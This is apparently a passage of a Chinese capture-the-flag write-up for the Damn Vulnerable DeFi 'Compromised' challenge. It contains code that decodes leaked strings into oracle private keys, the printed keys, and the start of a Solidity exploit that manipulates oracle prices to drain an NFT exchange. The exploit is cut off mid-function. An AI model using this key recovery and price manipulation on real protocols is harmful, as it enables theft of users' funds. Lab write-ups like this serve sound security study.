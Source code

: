 ```jsx
    '4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35',
    '4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34',
]
leakedInformation.forEach(leak => {
    hexStr = leak.split(` `).join(``).toString()
    const asciiStr = hexToAscii(hexStr);
    const decodedStr = decodeBase64(asciiStr);
    const privateKey = decodedStr;
    console.log("Private Key:", privateKey);
    // Create a wallet instance from the private key
    const wallet = new ethers.Wallet(privateKey);
    // Get the public key
    const address = wallet.address;
    console.log("Public Key:", address);
});
```

```bash
 ⚡ root@Antigone  ~/damn-vulnerable-defi   master ±  node test/compromised/compromised.utils.js

Private Key: 0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
Public Key: 0xe92401A4d3af5E446d93D11EEc806b1462b39D15
Private Key: 0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
Public Key: 0x81A5D6E50C214044bE44cA0CB057fe119097850c
```

经过验证，我们得到的是预言机的密钥

这样，我们就能控制两个预言机的报价，从而得到操纵价格的能力，（在exp中我们会直接调用模拟）这样我们就能以地板价买得nft再用最高价来将nft卖给交易所得到所有代币

exp

```solidity
pragma solidity =0.8.25;
import {TrustfulOracle} from "../../src/compromised/TrustfulOracle.sol";
import {TrustfulOracleInitializer} from "../../src/compromised/TrustfulOracleInitializer.sol";
import {Exchange} from "../../src/compromised/Exchange.sol";
import {DamnValuableNFT} from "../../src/DamnValuableNFT.sol";
import {IERC721Receiver} from "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
contract CompromisedExploit is IERC721Receiver{
    TrustfulOracle oracle;
    Exchange exchange;
    DamnValuableNFT nft;
    uint nftId;
    address recovery;
    constructor(    
        TrustfulOracle _oracle,
        Exchange _exchange,
        DamnValuableNFT _nft,
        address _recovery
    ) payable {
        oracle = _oracle;
        exchange = _exchange;
        nft = _nft;
        recovery = _recovery;
    }
    function buy() external payable{
        uint _nftId = exchange.buyOne{value:1}();
        nftId = _nftId;
    }
    function sell() external payable{
        nft.approve(address(exchange), nftId);
```